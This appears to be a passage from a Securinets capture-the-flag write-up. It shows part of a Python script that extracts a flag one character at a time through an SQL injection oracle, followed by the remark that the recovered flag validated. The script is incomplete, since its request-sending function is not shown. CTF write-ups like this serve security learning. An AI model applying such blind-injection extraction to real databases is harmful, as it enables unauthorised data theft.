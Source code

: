 ```ERROR: Flag should start with Securinets{ and end with } (SQLSTATE P0001)```
        while True:
            if check_char(idx, chr(iv + 96)):
                return chr(iv + 96)
            iv -= 1

    return "}"


flag = "Securinets{"
idx = len(flag) + 1

while True:
    c = get_char(idx)
    flag += c
    if c == "}":
        break
    
    print("current flag:", flag)
    idx += 1

print("final flag:", flag)
```

![](images/img1.png)

trying the flag we have got in the web interface, and it validates!

![](images/img2.png)